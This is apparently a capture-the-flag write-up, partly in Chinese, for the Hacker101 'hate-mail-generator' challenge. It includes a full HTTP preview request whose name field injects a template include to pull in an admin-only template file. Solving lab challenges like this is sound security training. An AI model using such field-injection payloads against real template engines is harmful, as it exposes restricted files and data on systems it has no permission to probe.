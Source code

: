 # hate-mail-generator
Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!

## Guess What
例子Guess What的内容：
```{{template:cbdj3_grinch_header.html}} Hi {{name}}..... Guess what..... <strong>YOU SUCK!</strong>{{template:cbdj3_grinch_footer.html}}```

在create->previes尝试其他template文件：
{{template:test}}

## preview
```
POST /hate-mail-generator/new/preview/ HTTP/1.1
Host: f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Length: 126
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com/hate-mail-generator/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

preview_markup=Hello {{name}}+....&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```

